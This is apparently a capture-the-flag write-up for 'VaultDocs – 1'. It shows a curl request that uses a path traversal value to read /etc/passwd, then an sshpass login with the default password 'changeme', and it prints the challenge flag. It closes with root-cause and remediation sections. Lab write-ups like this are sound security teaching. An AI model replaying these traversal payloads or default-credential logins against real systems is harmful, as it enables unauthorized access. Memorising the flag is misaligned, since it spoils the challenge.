


# KPMG CTF 2026: VaultDocs – 1 — Web Exploitation & SSH Writeup

## Challenge Information

| Field | Details |
| :--- | :--- |
| **Challenge Name** | VaultDocs – 1 |
| **Category** | Web Exploitation / Linux Reconnaissance / LFI |
| **Points** | 10 |
| **Target Web URL** | `https://kicyber-e309999b5e2e-vaultdocs-1-0-0.chals.io/` |
| **Target SSH Host** | `0.cloud.chals.io` (Port `18220`) |
| **Objective** | Obtain initial user access and retrieve the user flag (`user.txt`) |
| **User Flag** | `KPMG_CTF{2R68vP6s4_AUfTIldzjytnHuN76JGJn8MXL4IKy0R6k}` |

---

## 1. Executive Summary

VaultDocs is an enterprise-themed document management portal. By analyzing the web application, a **Local File Inclusion (LFI) / Path Traversal** vulnerability was identified in the document viewing functionality (`POST /` with parameter `page`). 

Extracting `/etc/passwd` revealed an active non-root user account named `vboxuser`. Enumerating credentials against the exposed SSH service confirmed weak/default credentials (`vboxuser:changeme`). Logging in over SSH provided an interactive foothold on the system, where `~/user.txt` was read to capture the flag.

---

## 2. Step-by-Step Walkthrough

### Phase 1: Reconnaissance & Environment Setup

An initial scan of the challenge target identified the web services:

```bash
WEB="kicyber-e309999b5e2e-vaultdocs-1-0-0.chals.io"
SSH_HOST="0.cloud.chals.io"

echo "$WEB"
echo "$SSH_HOST"
```

Visiting the web portal reveals **VaultDocs v2.4.1**, presenting a document viewer with quick-access forms.



---

### Phase 2: Vulnerability Analysis (Path Traversal / LFI)

Inspecting the HTML form for the document viewer showed that documents were requested via a `POST` request with the parameter `page`:

```html
<form method="POST" action="/" class="doc-form">
  <input type="hidden" name="page" value="docs/readme">
  <button type="submit" class="doc-item">Readme</button>
</form>
```

Testing for directory traversal by manipulating the `page` parameter:

```bash
curl -4 -sk --tlsv1.2 --tls-max 1.2 \
  -X POST --data-urlencode "page=../../../../etc/passwd" \
  "https://kicyber-e309999b5e2e-vaultdocs-1-0-0.chals.io/"
```

**Response Extract:**
```text
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
vboxuser:x:1000:1000:vboxuser:/home/vboxuser:/bin/bash
```

The application reflected system files directly inside `<div class="viewer">`. This confirmed **arbitrary file read**.

Attempting to read `/home/vboxuser/user.txt` directly through the web interface returned an empty view because the web server process (`www-data`) lacked read permissions on the user's home files.

---

### Phase 3: Initial Foothold (SSH Authentication)

From `/etc/passwd`, the user `vboxuser` was identified with a login shell (`/bin/bash`). Port enumeration on `0.cloud.chals.io` identified the SSH service listening on port **18220**.



Testing default/common credentials using `sshpass`:

```bash
sshpass -p "changeme" ssh -o StrictHostKeyChecking=no vboxuser@0.cloud.chals.io -p 18220
```

**Result:**
Authentication succeeded with password `changeme`.


---

### Phase 4: Flag Retrieval

Once authenticated as `vboxuser`:

```bash
id
# uid=1000(vboxuser) gid=1000(vboxuser) groups=1000(vboxuser),27(sudo)

cat ~/user.txt
```

**Captured Flag:**
```text
KPMG_CTF{2R68vP6s4_AUfTIldzjytnHuN76JGJn8MXL4IKy0R6k}
```

---

## 3. Final Flag

```text
KPMG_CTF{2R68vP6s4_AUfTIldzjytnHuN76JGJn8MXL4IKy0R6k}
```

---

## 4. Root Cause Analysis

1. **Path Traversal / Insecure File Ingestion:** The backend concatenated `$_POST['page']` directly into file paths without sanitizing `../` sequences or enforcing an allowlist.
2. **Default / Weak Credentials:** The user account `vboxuser` was left with a trivial default password (`changeme`), enabling an immediate pivot from web enumeration to interactive shell access.

---

## 5. Remediation & Hardening

* **Whitelisting:** Replace dynamic path concatenation with a strict whitelist of permitted document IDs.
* **Credential Hygiene:** Disable default credentials across all local user accounts.
* **Disable Password SSH:** Enforce public-key authentication for SSH access.
